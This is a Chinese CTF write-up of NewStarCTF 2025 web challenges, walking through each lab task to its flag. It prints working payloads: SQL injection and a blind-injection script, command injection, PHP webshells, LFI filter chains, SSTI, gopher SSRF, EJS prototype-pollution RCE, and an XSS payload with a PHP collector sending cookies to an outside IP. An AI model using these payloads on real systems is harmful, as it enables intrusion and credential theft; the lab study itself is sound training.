# NewStarCTF2025-web解析-先知社区

> **来源**: https://xz.aliyun.com/news/19343  
> **文章ID**: 19343

---

# week1

### multi-headach3

> 考点：robots.txt协议、抓包

根据题目提示联想到robots.txt，访问/robots.txt路由。给出了hidden.php



接着访问/hidden.php，发现直接跳到了/index.php，抓个包看一下，发现flag在响应头中

week1

### multi-headach3

> 考点：robots.txt协议、抓包

根据题目提示联想到robots.txt，访问/robots.txt路由。给出了hidden.php


接着访问/hidden.php，发现直接跳到了/index.php，抓个包看一下，发现flag在响应头中



```
flag{842c4abe-7232-4f34-8ce8-28eaf0870f39}
```

### strange\_login

> 考点：sql注入已知用户名的万能密码

提示1=1，并且进入是一个登录口，要管理员身份才能登录。猜测要使用已知用户名的万能密码。

```
admin' or '1'='1
```

密码随便输入，登录即可



```
flag{0990a34c-70d9-49be-ae41-1fca9186a196}
```

### 宇宙的中心是php

> 考点：绕过反调试、代码审计

进入是一个动画页面


随手想看下源代码，发现按键被禁用了。直接找浏览器设置工具打开开发者工具，发现提示`s3kret.php`



访问s3kret.php路由，得到源码：

```
<?php
highlight_file(__FILE__);
include "flag.php";
if(isset($_POST['newstar2025'])){
    $answer = $_POST['newstar2025'];
    if(intval($answer)!=47&&intval($answer,0)==47){
        echo $flag;
    }else{
        echo "你还未参透奥秘";
    }
}
```

要求用post方式给newstar2025传值，且内容按照十进制解析结果不等于47、自动检测进制后解析结果等于47。这里将47转换成十六进制0x2F即可绕过



```
flag{adf3e286-d809-4252-bd93-fc4195cd42d8}
```

### 我真得控制你了

> 考点：反调试绕过、前端代码审计、弱口令、代码审计

进去有个启动按钮，但是点不了，应该是按钮被覆盖了



这次burp抓包看下页面源代码，可以看到按钮被shieldOverlay这个层屏蔽

直接用上面的方式打开开发者工具，在控制台运行如下语句移除这个屏蔽层

```
document.getElementById('shieldOverlay').remove();
```

然后启动即可进入到下一关，提示弱口令



爆破一下，发现密码为111111时成功跳转



认证之后进入portal.php路由，并且给出源码

```
<?php
error_reporting(0);

function generate_dynamic_flag($secret) {
    return getenv("ICQ_FLAG") ?: 'default_flag';
}


if (isset($_GET['newstar'])) {
    $input = $_GET['newstar'];
    
    if (is_array($input)) {
        die("恭喜掌握新姿势");
    }
    

    if (preg_match('/[^\d*\/~()\s]/', $input)) {
        die("老套路了，行不行啊");
    }
    

    if (preg_match('/^[\d\s]+$/', $input)) {
        die("请输入有效的表达式");
    }
    
    $test = 0;
    try {
        @eval("\$test = $input;");
    } catch (Error $e) {
        die("表达式错误");
    }
    
    if ($test == 2025) {
        $flag = generate_dynamic_flag($flag_secret);
        echo "<div class='success'>拿下flag！</div>";
        echo "<div class='flag-container'><div class='flag'>FLAG: {$flag}</div></div>";
    } else {
        echo "<div class='error'>大哥哥泥把数字算错了: $test ≠ 2025</div>";
    }
} else {
    ?>
<?php } ?>
```

要求通过get方式给newstar传参，要满足如下要求：

* 首先不能是数组
* 输入只能包含数字、运算符、括号、空格
* 输入不能全是数字和空格
* eval计算结果是2025

这里可以使用\*运算符，由45乘45得到2025



```
flag{9e506717-b19b-4d42-bd8d-b30a80eba0a6}
```

### 别笑，你也过不了第二关

一个小游戏题目，要求第二关100000分过关

在源代码中可以看到，将score参数传入flag.php，根据分数判断是否达到1000000



可以直接发送score=1000000的post到flag.php，在控制台运行下面的代码即可

```
// 直接发送通关请求
fetch("/flag.php", {
  method: "POST",
  headers: {
    "Content-Type": "application/x-www-form-urlencoded"
  },
  body: "score=1000000" // 直接设置满分
})
.then(response => response.text())
.then(data => {
  console.log("Flag获取成功:", data);
  alert(data); // 显示flag
})
.catch(error => {
  console.error("请求失败:", error);
});
```



```
flag{63892e85-6cce-4fa7-8606-60bd0ba66037}
```

或者直接玩游戏，在控制台设置score为一个大于1000000的值，再随便动两下等结束即可



​

### 黑客小W的故事（1）

> 考点：http协议、对脑电波

要打900只吉欧才行，但是中间会被古神干掉，抓包看一下，发现发送了大量的hunt包，每次count都是1



直接将count改为900



进入下一关`/Level2_mato`

要与蘑菇先生对话说guding，但是直接点击交谈无反应，根据提示要get传入shipin=mogubaozi

对话之后提示要用post方式向他传递要说的话，随便给guding传个参数，要求用DELETE方法除掉chongzi



再加上个chongzi参数，然后改一下DELETE方法



之后访问进入给出的路由，进入第三关：`/Level3_SheoChallenge`

提示中说要修改UA头为CycloneSlash，但是回显说是假把式

改成:`User-Agent: CycloneSlash/1.`又说要最新的直接改成下面这样：

```
User-Agent: CycloneSlash/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.7049.96 Safari/537.36 Edg/135.0.3179.85
```

这次又要DashSlash



```
User-Agent: CycloneSlash/5.0 (Windows NT 10.0; Win64; x64) DashSlash/537.36 (KHTML, like Gecko) Chrome/135.0.7049.96 Safari/537.36 Edg/135.0.3179.85
```

进入下一关：`/Level4_Sly`

访问即可获得flag



```
flag{90b7e380-7274-43f1-b9ba-6663382368da}
```

# week2

### DD加速器

直接命令执行查看环境变量，在里面找到flag。(根目录下的是假的)

```
127.0.0.1;env
```



### 真的是签到欸

写个代码将要执行的语句进行对应加密，注意这里空格会被替换，使用`${IFS}`绕过

```
# save as make_cipher.py
import base64
import string

# ---- atbash 实现（对大小写字母分别映射，非字母保持不变） ----
def atbash(s: str) -> str:
    out = []
    for ch in s:
        if 'a' <= ch <= 'z':
            out.append(chr(ord('a') + (25 - (ord(ch) - ord('a')))))
        elif 'A' <= ch <= 'Z':
            out.append(chr(ord('A') + (25 - (ord(ch) - ord('A')))))
        else:
            out.append(ch)
    return ''.join(out)

# ---- rot13（Python 标准库 codecs 也可用，这里手写保证可见性） ----
def rot13(s: str) -> str:
    res = []
    for ch in s:
        if 'a' <= ch <= 'z':
            res.append(chr((ord(ch) - ord('a') + 13) % 26 + ord('a')))
        elif 'A' <= ch <= 'Z':
            res.append(chr((ord(ch) - ord('A') + 13) % 26 + ord('A')))
        else:
            res.append(ch)
    return ''.join(res)

if __name__ == '__main__':

    E = "system('cat${IFS}/flag');"   # <- 你可以替换成别的安全语句用于测试

    # 1) 对 E 做 rot13
    r = rot13(E)

    # 2) 对 rot13(E) 做 atbash，得到 X
    X = atbash(r)

    # 3) 为避免服务器那边的 str_replace(' ', '', ...) 出险，去掉 X 中的空格（通常 atbash 后不会出现空格，但可保险）
    X = X.replace(' ', '')

    # 4) base64 编码
    cipher_b64 = base64.b64encode(X.encode()).decode()

    print("E (to be eval'd) =")
    print(E)
    print()
    print("rot13(E) =")
    print(r)
    print()
    print("atbash(rot13(E)) = (this will be base64-decoded on server)")
    print(X)
    print()
    print("Final cipher (base64) to POST:")
    print(cipher_b64)

```

post传入：

```
cipher=dW91dGlhKCdrbXQke0VIVX0vaGJtZycpOw==
```

### 搞点哦润吉吃吃橘

在源码的注释里面看到账号密码：`Doro/Doro_nJlPVs_@123`

登录之后要求计算给定的表达式



```
import requests
import re
import time


def solve_challenge():
    base_url = "https://eci-2ze5djxemg4rlntogdkq.cloudeci1.ichunqiu.com:5000"

    # 1. 开始挑战，获取表达式和新的session
    start_url = f"{base_url}/start_challenge"

    # 使用原始登录session发起挑战
    original_session = "eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiRG9ybyJ9.aOO3Mw.aYSwzbiz5vCzr5jj65TYspEPUNQ"

    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36",
        "Content-Type": "application/json",
        "Referer": f"{base_url}/home"
    }

    cookies = {"session": original_session}

    try:
        # 发起挑战请求
        resp = requests.post(start_url, headers=headers, cookies=cookies, timeout=5)
        print(f"开始挑战状态码: {resp.status_code}")

        if resp.status_code != 200:
            print("挑战开始失败")
            return None

        data = resp.json()
        expression = data['expression']
        print(f"表达式: {expression}")
        print(f"multiplier: {data['multiplier']}")
        print(f"xor_value: {data['xor_value']}")

        # 从表达式中提取时间戳（关键修正！）
        timestamp_match = re.search(r'\((\d+) \*', expression)
        if not timestamp_match:
            print("无法从表达式中提取时间戳")
            return None

        timestamp = int(timestamp_match.group(1))
        print(f"从表达式提取的时间戳: {timestamp}")

        # 获取新的session
        new_session = resp.cookies.get('session')
        if not new_session:
            print("未获取到新session")
            return None

        print(f"新session: {new_session[:50]}...")

        # 2. 计算token（使用表达式中的时间戳，不是当前时间戳）
        multiplier = data['multiplier']
        xor_value = int(data['xor_value'], 16)

        # 使用表达式中的时间戳进行计算
        token = (timestamp * multiplier) ^ xor_value

        print(f"计算token: {token}")

        # 3. 验证token（使用新session）
        verify_url = f"{base_url}/verify_token"
        verify_cookies = {"session": new_session}
        verify_data = {"token": token}

        # 确保在3秒内提交
        start_time = time.time()
        verify_resp = requests.post(verify_url, json=verify_data, cookies=verify_cookies, headers=headers, timeout=5)
        elapsed = time.time() - start_time

        print(f"验证状态码: {verify_resp.status_code}")
        print(f"验证耗时: {elapsed:.2f}秒")
        print(f"验证响应: {verify_resp.text}")

        return verify_resp.json()

    except requests.exceptions.RequestException as e:
        print(f"请求错误: {e}")
        return None
    except Exception as e:
        print(f"其他错误: {e}")
        return None


if __name__ == "__main__":
    result = solve_challenge()
    if result:
        print("最终结果:", result)
```

```
flag{e2e6431d-01cd-439b-949f-c391ec62180b}
```

### 白帽小K的故事（1）

在页面源代码发现这段函数



构造如下请求，读取一下给的star.mp3，发现会将该文件当作php代码执行。



直接写个php马读取flag，保存为2.mp3上传并读取

```
<?php system('cat /flag'); ?>
```



```
flag{3e8216b0-4154-4a3f-aab0-30c1b1c26a21}
```

### 小E的管理系统

根据提示为sql注入，输入2-1，查询的是节点1的结果，判断为数字型注入。

过滤空格，这里用`%0a`绕过

经过测试，得到字段数为5

```
/query.php?id=1%0aorder%0aby%0a5
```

查看回显位时发现逗号`,`被过滤，这里用join绕过，得到回显位为1

```
/query.php?id=1%0aunion%0aselect%0a*%0afrom%0a(select%0a1)a%0ajoin(select%0a2)b%0ajoin(select%0a3)c%0ajoin(select%0a4)d%0ajoin(select%0a5)e
```



查表

```
/query.php?id=1%0aunion%0aselect%0a*%0afrom%0a(select%0a1)a%0ajoin(select%0a2)b%0ajoin%0a(select%0a3)c%0ajoin(select%0a4)d%0ajoin(select%0agroup_concat(tbl_name)%0aFROM%0asqlite_master)e
```



获取表的结构，从sqlite\_master中读取sql字段

```
/query.php?id=1%0aunion%0aselect%0a*%0afrom%0a(select%0a1)a%0ajoin(select%0a2)b%0ajoin%0a(select%0a3)c%0ajoin(select%0a4)d%0ajoin(select%0agroup_concat(sql)%0aFROM%0asqlite_master)e 
```



在sys\_config表中可以看到有id，config\_key,config\_value

看一下内容，最终在config\_value字段中发现flag

```
/query.php?id=1%0aunion%0aselect%0a*%0afrom%0a(select%0a1)a%0ajoin(select%0a2)b%0ajoin%0a(select%0a3)c%0ajoin(select%0a4)d%0ajoin(select%0agroup_concat(config_value)%0aFROM%0asys_config)e
```

```
flag{359aabbe-8a6d-4a48-be42-f7b2a7b86437}
```

# week3

### 小E的秘密计划

根据题目的备份提示，访问`/www.zip`下载备份源码

```
C:\Users\clockwise\Desktop\www (2)\public-555edc76-9621-4997-86b9-01483a50293e>git status
On branch master
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
        new file:   tips.txt


C:\Users\clockwise\Desktop\www (2)\public-555edc76-9621-4997-86b9-01483a50293e>git show :tips.txt
tips：什么是branch

C:\Users\clockwise\Desktop\www (2)\public-555edc76-9621-4997-86b9-01483a50293e>git show 1389b47
commit 1389b4798a8013a1c90fb2d867243d0da18c5175
Author: admin <admin@admin.com>
Date:   Wed Oct 1 12:10:02 2025 +0800

    初始化

diff --git a/index.html b/index.html
new file mode 100644
index 0000000..e3b643a
--- /dev/null
+++ b/index.html
@@ -0,0 +1,74 @@
+<!DOCTYPE html>
+<html lang="zh-CN">
+<head>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Project X - 登录系统</title>
+    <link rel="stylesheet" href="../css/style.css">
+</head>
+<body>
+    <div class="floating-shapes">
+        <div class="floating-shape shape-circle" style="top: 15%; left: 10%;"></div>
+        <div class="floating-shape shape-ring" style="top: 40%; left: 85%;"></div>
+        <div class="floating-shape shape-polygon" style="top: 70%; left: 20%;"></div>
+    </div>
+
+
+    <div class="login-container">
+        <div class="login-box">
+            <div class="login-logo">
+                <h1>PROJECT X</h1>
+                <p>系统访问认证</p>
+                <p>tips: 默认密码使用uuid4生成，不可能被爆破</p>
+            </div>
+
+            <form id="login-form">
+                <div class="input-group">
+                    <label for="username">用户ID</label>
+                    <input type="text" id="username" placeholder="输入您的用户ID">
+                </div>
+
+                <div class="input-group">
+                    <label for="password">密码</label>
+                    <input type="password" id="password" placeholder="输入您的密码">
+                </div>
+                <div class="login-actions">
+                    <a href="/" class="btn">返回首页</a>
+                    <button type="button" class="btn btn-primary" id="login-btn">验证登录</button>
+                </div>
+
+                <div class="login-footer">
+                    <p>版本 5.1.4</p>
+                </div>
+            </form>
+        </div>
+    </div>
+    <script>
+        document.getElementById('login-btn').addEventListener('click', function() {
+            const username = document.getElementById('username').value;
+            const password = document.getElementById('password').value;
+
+            fetch('login.php', {
+                method: 'POST',
+                headers: {
+                    'Content-Type': 'application/x-www-form-urlencoded'
+                },
+                body: `username=${encodeURIComponent(username)}&password=${encodeURIComponent(password)}`
+            })
+            .then(response => {
+                if (response.redirected) {
+                    window.location.href = response.url;
+                } else {
+                    return response.text();
+                }
+            })
+            .then(text => {
+                if (text) {
+                    alert(text);
+                }
+            })
+            .catch(error => console.error('Error:', error));
+        });
+    </script>
+</body>
+</html>
\ No newline at end of file
diff --git a/login.php b/login.php
new file mode 100644
index 0000000..0d6a57d
--- /dev/null
+++ b/login.php
@@ -0,0 +1,17 @@
+<?php
+require_once 'user.php';
+$userData = getUserData();
+if ($_SERVER['REQUEST_METHOD'] === 'POST') {
+    $username = $_POST['username'] ?? '';
+    $password = $_POST['password'] ?? '';
+
+    if ($username === $userData['username'] && $password === $userData['password']) {
+        header('Location: /secret-xxxxxxxxxxxxxxxxxxx');
+        exit();
+    } else {
+        echo '登录失败,在git里找找吧';
+        exit();
+    }
+}
+
+

C:\Users\clockwise\Desktop\www (2)\public-555edc76-9621-4997-86b9-01483a50293e>git show 5f8ecc0
commit 5f8ecc03aee0de892013bba7ce0522876c419b58
Author: admin <admin@admin.com>
Date:   Wed Oct 1 12:14:08 2025 +0800

    新增提示

diff --git a/tips.txt b/tips.txt
new file mode 100644
index 0000000..a7fa1d9
--- /dev/null
+++ b/tips.txt
@@ -0,0 +1 @@
+tips：什么是branch
\ No newline at end of file

C:\Users\clockwise\Desktop\www (2)\public-555edc76-9621-4997-86b9-01483a50293e>git show 5fef682
commit 5fef682d7eceba025c894af4a5f8bf4680666368 (HEAD -> master)
Author: admin <admin@admin.com>
Date:   Wed Oct 1 12:14:25 2025 +0800

    删除提示

diff --git a/tips.txt b/tips.txt
deleted file mode 100644
index a7fa1d9..0000000
--- a/tips.txt
+++ /dev/null
@@ -1 +0,0 @@
-tips：什么是branch
\ No newline at end of file
```



在这个目录下的HEAD文件中发现branch



查看一下git记录

```
C:\Users\clockwise\Desktop\www (2)\public-555edc76-9621-4997-86b9-01483a50293e>git show 353b98f7c2fe77a5a426bf73576f5113820c4669
commit 353b98f7c2fe77a5a426bf73576f5113820c4669
Author: admin <admin@admin.com>
Date:   Wed Oct 1 12:11:48 2025 +0800

    测试，这个branch会删

diff --git a/user.php b/user.php
new file mode 100644
index 0000000..f3d34d7
--- /dev/null
+++ b/user.php
@@ -0,0 +1,8 @@
+<?php
+
+function getUserData() {
+    return [
+        'username' => 'admin',
+        'password' => 'f75cc3eb-21e0-4713-9c30-998a8edb13de'
+    ];
+}
\ No newline at end of file
```

得到账号密码：

```
'username' => 'admin',
'password' => 'f75cc3eb-21e0-4713-9c30-998a8edb13de'
```

访问登录：<https://eci-2zeiq1qx3sg2kcxdr0ws.cloudeci1.ichunqiu.com/public-555edc76-9621-4997-86b9-01483a50293e/>

登录之后下载.DS\_Store文件

<https://eci-2zeiq1qx3sg2kcxdr0ws.cloudeci1.ichunqiu.com/secret-1c84a90c-d114-4acd-b799-1bc5a2b7be50/.DS_Store>

利用工具ds\_store\_exp分析得到flag路径



之后访问即可

```
https://eci-2zeiq1qx3sg2kcxdr0ws.cloudeci1.ichunqiu.com/secret-1c84a90c-d114-4acd-b799-1bc5a2b7be50/ffffllllaaaagggg114514
```

```
flag{1366377a-7d01-430f-b722-473f6cbd5f43}
```

### 白帽小K的故事（2）

布尔盲注，抓个包可以看到查询正确的回显内容是：`{status: "ok", message: "Found"}`



以这个为标志写个脚本布尔盲注，这里过滤了空格，用括号绕过

```
import requests


def blind_sql_injection(url):
    """
    基于布尔盲注的自动化脚本，用于逐字符提取数据
    """
    extracted_data = ""

    for char_position in range(1, 1000):
        current_char = extract_single_char(url, char_position)

        if current_char:
            extracted_data += current_char
            print(f"位置 {char_position}: '{current_char}' - 当前结果: {extracted_data}")
        else:
            print(f"数据提取完成，共 {char_position - 1} 个字符")
            break

    return extracted_data


def extract_single_char(url, position):
    """
    提取指定位置的单个字符
    """
    low_bound = 32
    high_bound = 127

    while low_bound < high_bound:
        mid_point = (low_bound + high_bound) // 2

        # 构建SQL注入payload
        payload = construct_payload(position, mid_point)

        # 发送请求并检查响应
        is_greater = send_injection_request(url, payload)

        if is_greater:
            low_bound = mid_point + 1
        else:
            high_bound = mid_point

    # 检查是否找到有效字符
    final_char = chr(low_bound) if 32 <= low_bound <= 126 else None
    return final_char


def construct_payload(position, ascii_value):
    """
    构建SQL注入payload
    可根据需要修改查询语句
    """
    payloads = [
        # 获取所有数据库名
        f"amiya'AND(ascii(substr((SELECT(group_concat(schema_name))FROM(information_schema.schemata)),{position},1))>{ascii_value})#",

        # 获取Flag库的所有表名
        f"amiya'AND(ascii(substr((SELECT(group_concat(table_name))FROM(information_schema.tables)WHERE(table_schema='Flag')),{position},1))>{ascii_value})#",

        # 获取flag表的所有列名
        f"amiya'AND(ascii(substr((SELECT(group_concat(column_name))FROM(information_schema.columns)WHERE(table_name='flag')),{position},1))>{ascii_value})#",

        # 获取flag数据
        f"amiya'AND(ascii(substr((SELECT(flag)FROM(Flag.flag)),{position},1))>{ascii_value})#"
    ]

    # 使用最后一个payload（获取flag数据）
    return payloads[-1]


def send_injection_request(url, payload):
    """
    发送注入请求并解析响应
    """
    request_data = {"name": payload}

    try:
        response = requests.post(url, data=request_data, timeout=5)
        return '{"status":"ok","message":"Found"}' in response.text
    except requests.exceptions.RequestException as e:
        print(f"请求失败: {e}")
        return False


if __name__ == "__main__":
    target_url = "https://eci-2ze5w79g3ev6rmohwkr4.cloudeci1.ichunqiu.com:80/search"

    print("开始SQL盲注攻击...")
    final_flag = blind_sql_injection(target_url)
    print(f"最终结果: {final_flag}")
```

```
flag{866a6dd5-b7eb-429a-a82a-b34fe86b1a49}
```

### mirror\_gate

题目描述中提到了系统中的应用配置缺陷，应该就是.htaccess解析问题了

扫描/uploads目录可以发现有.htaccess文件



访问一下这个文件：

```
AddType application/x-httpd-php .webp
```

发现会把.webp后缀的文件当作php文件解析

写个马改为.webp后缀

这里还会检查文件内容，写入如下一句话木马绕过

```
<?=`more /fl*`?>
```



之后放包访问该文件即可

```
flag{4ae6fc8b-16d3-4d98-9559-66a6d89b2002}
```

​

### ez\_chain

过滤了如下内容：

```
array('/',':','php','base64','data','zip','rar','filter','flag');
```

并且会对输出结果循环base64解码，并且解出来的内容中不能包含f，这里使用`convert.iconv.ASCII.CP037` 将ASCII转换为CP037编码

```
php://filter/convert.base64-encode|convert.iconv.ASCII.CP037/resource=/flag
```

要双重url编码绕过黑名单

```
/?file=%2570%2568%2570%253a%252f%252f%2566%2569%256c%2574%2565%2572%252f%2563%256f%256e%2576%2565%2572%2574%252e%2562%2561%2573%2565%2536%2534%252d%2565%256e%2563%256f%2564%2565%257c%2563%256f%256e%2576%2565%2572%2574%252e%2569%2563%256f%256e%2576%252e%2541%2553%2543%2549%2549%252e%2543%2550%2530%2533%2537%252f%2572%2565%2573%256f%2575%2572%2563%2565%253d%252f%2566%256c%2561%2567
```



将结果的hex编码复制下面，利用python转换CP037编码

```
# CP037解码脚本

# 您提供的CP037编码十六进制字符串
hex_string = "E9 94 A7 88 E9 F3 A3 88 D5 E6 E9 89 E9 C4 83 F3 D5 A8 F0 F5 D5 A9 D9 93 D3 E3 D8 F4 D6 E6 E8 A3 E8 94 C6 92 E9 E2 F1 94 D4 A9 D4 F3 D5 E6 E5 91 D5 A9 87 A6 E8 A9 88 F9 C3 87 7E 7E"


# 将十六进制字符串转换为字节序列
def hex_to_bytes(hex_str):
    # 移除空格并转换为字节
    hex_clean = hex_str.replace(" ", "")
    try:
        bytes_data = bytes.fromhex(hex_clean)
        return bytes_data
    except ValueError as e:
        print(f"十六进制转换错误: {e}")
        return None


# 解码CP037编码
def decode_cp037(hex_str):
    # 转换为字节
    cp037_bytes = hex_to_bytes(hex_str)

    if cp037_bytes is None:
        return None

    print(f"字节长度: {len(cp037_bytes)}")
    print(f"原始字节: {cp037_bytes.hex().upper()}")

    try:
        # 尝试CP037解码
        decoded_text = cp037_bytes.decode('cp037')
        return decoded_text
    except UnicodeDecodeError as e:
        print(f"CP037解码错误: {e}")

        # 尝试其他可能的EBCDIC编码
        encodings_to_try = ['cp500', 'cp1047', 'ibm037', 'ebcdic-cp-us']

        for encoding in encodings_to_try:
            try:
                decoded = cp037_bytes.decode(encoding)
                print(f"使用 {encoding} 解码: {decoded}")
            except UnicodeDecodeError:
                print(f"{encoding} 解码失败")

        return None


# 主程序
if __name__ == "__main__":
    print("CP037解码结果:")
    print("=" * 50)

    result = decode_cp037(hex_string)

    if result:
        print(f"
解码后的文本: {result}")

        # 显示每个字符的详细信息
        print(f"
详细解码信息:")
        print("-" * 30)
        bytes_data = hex_to_bytes(hex_string)
        for i, byte in enumerate(bytes_data):
            try:
                char = bytes([byte]).decode('cp037')
                print(f"字节 0x{byte:02X} -> 字符: '{char}' (ASCII: {ord(char)})")
            except UnicodeDecodeError:
                print(f"字节 0x{byte:02X} -> 无法解码的字符")

    print("
" + "=" * 50)
```

```
解码后的文本: ZmxhZ3thNWZiZDc3Ny05NzRlLTQ4OWYtYmFkZS1mMzM3NWVjNzgwYzh9Cg==
```

结果base64解码即可

```
flag{a5fbd777-974e-489f-bade-f3375ec780c8}
```

### who's ssti

```
{{lipsum.__globals__.__builtins__.__import__('re').findall('\d+', 'abc123def456')}}
```

```
{{lipsum.__globals__.__builtins__.__import__('difflib').get_close_matches('apple', ['apply', 'ape', 'apples', 'peach'])}}
```

```
{{lipsum.__globals__.__builtins__.__import__('random').choice([1, 2, 3, 4, 5])}}
```

```
{{lipsum.__globals__.__builtins__.__import__('textwrap').dedent('    hello
    world')}}
```

```
{{lipsum.__globals__.__builtins__.__import__('statistics').mean([1, 2, 3, 4, 5])}}
```



成功调用5个函数即可获得flag



```
flag{7d680b9d-49e3-40c4-b7bb-b2fa6b9a9759}
```

# week4

### 武功秘籍

稻草人cms

访问`/dcr/login.htm`路由进入登录口，弱口令：admin/admin



添加新闻类，随便写个名字添加，然后回到首页。



点击添加新闻



传个php马，然后添加新闻



抓包改下Content-Type



然后找一下上传的马子名字



然后之后看phpinfo即可找到flag



```
flag{33111046-ef43-4af5-aba6-c83c3d464eb3}
```

### 小羊走迷宫

变量名字用这种方式绕过：`ma[ze.path`

payload:

```
http://8.147.132.32:20712/?ma[ze.path=TzoxMDoic3RhcnRQb2ludCI6MTp7czo5OiJkaXJlY3Rpb24iO2E6Mjp7aTowO086ODoiZW5kUG9pbnQiOjE6e3M6MTQ6IgBlbmRQb2ludABwYXRoIjtzOjUyOiJwaHA6Ly9maWx0ZXIvY29udmVydC5iYXNlNjQtZW5jb2RlL3Jlc291cmNlPWZsYWcucGhwIjt9aToxO3M6MzoiZm9vIjt9fQ==
```



然后结果再base64解码一下就行了



```
flag{14d1257a-02c7-4355-a0a5-ce9d5c089c8a}
```

### 小E的留言板

在vps上写个php文件，用来接受xss得到cookie

```
<?php
 $cookie = $_GET['cookie'];
 $result = fopen("cookie.txt", "a");
 fwrite($result,$cookie . "
");
 fclose($result);
?>
```

然后在web页面随便注册个账号登录进去

```
" autofofocuscus oonnfofocuscus="var i=new Image();i.src='http://82.157.235.117/1.php?cookie='+encodeURICompoonnent(document.cookie);this.oonnfofocuscus=null"
```

将payload输入留言框，然后更新、报告。过了一会即可看到获得到的cookie



### sqlupload

随便写个一句话木马

```
<?php @eval($_REQUEST['1']); ?>
```

然后抓包，上传的时候将文件名字改成一句话木马



然后利用getFileList.php中正则漏洞：只包含upload\_time或者id即可绕过



然后利用这个向网站根目录将刚刚的马写入文件

```
/getFileList.php?order=upload_time%20INTO%20OUTFILE%20%27/var/www/html/shell1.php%27
```

访问发现成功写入，并且能执行phpinfo



蚁剑直接连，然后执行根目录下的readFlag即可



​

### ssti在哪里

web服务(端口80/外部25036) → app.py(5000) → interal\_web.py(5001)

由于题目要post传参，这里用gopher打，对name进行模板注入

payload直接读取环境变量：



```
gopher://127.0.0.1:5000/_POST%20/%20HTTP/1.0%0d%0aHost:%20127.0.0.1%0d%0aConnection:%20close%0d%0aContent-Type:%20application/x-www-form-urlencoded%0d%0aContent-Length:%2048%0d%0a%0d%0aname%3D%7B%7Bcycler.__init__.__globals__.os.environ%7D%7D
```

# week5

### 小W和小K的故事（最终章）

在app.js中可以看到硬编码了随机数种子114514



根据random.js写个python脚本预测一下，获取admin密码

```
class Random:
    def __init__(self, seed):
        self.seed = seed % 998244353

    def next(self):
        self.seed = (self.seed * 48271) % 998244353
        return self.seed

    def getRandomInt(self, min_val, max_val):
        return min_val + (self.next() % (max_val - min_val))

    def getRandomString(self, length):
        charset = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
        result = ""
        for i in range(length):
            result += charset[self.getRandomInt(0, len(charset))]
        return result


def main():
    # 生成session secret（第一次调用）
    rng = Random(114514)
    session_secret = rng.getRandomString(16)
    print(f"Session Secret: {session_secret}")

    # 生成admin密码（第二次调用，状态已改变）
    admin_password = rng.getRandomString(16)
    print(f"admin密码: {admin_password}")


if __name__ == "__main__":
    main()

# 输出结果:
# Session Secret: JbjULcgJmg6EyKcQ
# Admin密码: XrfGpmeEFZmz8NDZ
```

得到admin密码：`XrfGpmeEFZmz8NDZ`

进入管理后台，开启抓包，随便添加个用户，js原型链污染（CVE-2019-10744）+ EJS 3.1.6 模板引擎的RCE



```
POST /addUser HTTP/2
Host: eci-2ze851x0t7t6px2pa8ob.cloudeci1.ichunqiu.com:3000
Cookie: Hm_lvt_2d0601bd28de7d49818249cf35d95943=1757503154; session=s%3A368rWRXOa7vZea6ArGnCRZf2ei9l_oKz.YntA7wJWrAQc%2BkQnV45IEbvgOjN48uKgLOX62YqHs5c
Content-Length: 214
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: */*
Origin: https://eci-2ze851x0t7t6px2pa8ob.cloudeci1.ichunqiu.com:3000
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://eci-2ze851x0t7t6px2pa8ob.cloudeci1.ichunqiu.com:3000/admin
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{
  "constructor": {
    "prototype": {
      "client": true,
      "escapeFunction": "1; return global.process.mainModule.constructor._load('child_process').execSync('cat /flag').toString(); //"
    }
  }
}
```

然后跟随这个302跳转，即访问任意EJS页面，触发模板渲染，执行注入的代码



```
flag{750ed55d-4b95-46ab-8bb0-7f6158ddd3e3}
```

### 眼熟的计算器

jadx反编译得到源码：

```
package org.example.newstar.controller;

import javax.script.ScriptEngineManager;
import org.springframework.beans.factory.xml.BeanDefinitionParserDelegate;
import org.springframework.beans.factory.xml.DefaultBeanDefinitionDocumentReader;
import org.springframework.cache.interceptor.CacheOperationExpressionEvaluator;
import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestParam;

@Controller
/* loaded from: app.jar:BOOT-INF/classes/org/example/newstar/controller/NewstarController.class */
public class NewstarController {
    private String[] BLACKLIST = {DefaultBeanDefinitionDocumentReader.IMPORT_ELEMENT, "java.lang.Runtime", "new"};

    private String calculate(String content) throws Exception {
        String[] strArr;
        for (String word : this.BLACKLIST) {
            if (content.contains(word)) {
                return "Blacklisted word detected: " + word;
            }
        }
        Object result = new ScriptEngineManager().getEngineByName("js").eval(content);
        return result.toString();
    }

    @GetMapping({"/"})
    public String home(Model model) throws Exception {
        return BeanDefinitionParserDelegate.INDEX_ATTRIBUTE;
    }

    @GetMapping({"/calc"})
    public String status(@RequestParam("content") String content, Model model) throws Exception {
        model.addAttribute(CacheOperationExpressionEvaluator.RESULT_VARIABLE, calculate(content));
        return BeanDefinitionParserDelegate.INDEX_ATTRIBUTE;
    }
}
```



使用type()动态引用类，绕过黑名单检测

由于直接读取会返回哈希码，因此这里用base64编码绕过：

```
1+1; Java.type("java.util.Base64").getEncoder().encodeToString(Java.type("java.nio.file.Files").readAllBytes(Java.type("java.nio.file.Paths").get("/flag")))
```



将结果base64解码即可



```
flag{6b5714b0-2a40-465b-8016-c9a6bcf50a16}
```

### 废弃的网站

